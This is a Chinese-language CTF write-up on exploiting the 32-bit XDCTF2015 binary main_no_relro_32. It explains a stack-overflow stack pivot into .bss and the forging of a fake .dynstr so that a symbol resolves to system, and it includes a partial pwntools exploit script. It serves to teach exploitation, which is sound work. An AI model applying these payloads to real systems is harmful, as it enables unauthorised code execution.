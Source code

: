 使用IDA打开之后发现有write函数和一个栈溢出函数：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627797997533-61026b63-9cba-4b90-9c93-100ca46b1c1c.png)

这里选择使用栈迁移到bss段然后再进行攻击，程序可用的gadget如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627880351274-42afee48-c84d-4bb5-ae9f-2756077246a2.png)

首先来捋一下思路：

+ 这道题的RELRO的保护是完全关闭的，是所以我们可以覆盖处于可写状态的.dynamic的DT_STRTAB的d_ptr（处于data段）：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627881917724-5c8fc8c0-92ee-4670-88df-b0a4a1c61cbe.png)

+ 因为在解析函数的真实地址时会调用_dl_lookup_symbol_x函数，而传入的参数strtab + sym->st_name具有特异性，也就是它传入哪个符号的字符串指针就解析成为哪个函数。

```c
      result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,
				    version, ELF_RTYPE_CLASS_PLT, flags, NULL); 
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627881948451-64a3a97f-b0f9-4dc0-9121-760f39c622f6.png)

+ 综上，我们可以在bss或栈上伪造一个ELF String Table（.dynstr section）（视情况将某个函数更改为system），然后覆盖对应的结构体指针为fake_dynstr；这样在动态链接的时候就会将该符号解析为system函数。

> leave指令相当于mov esp,ebp;pop ebp
>

首先迁移到bss段上：

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_no_relro_32')
elf=ELF('./main_no_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804862b
leave_retn_gadget=0x0804851A #mov esp,ebp;pop ebp
three_pop_gadget=0x08048629
p.recvuntil('Welcome to XDCTF2015~!\n')

new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x500)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.sendline(payload1)
```

栈迁移主要的目标是将esp迁移到bss段上，ebp无所谓；迁移完成之后我们在new_stack_esp上写入read和fake_dynstr并且篡改strtab指针为我们伪造的fake_dynstr

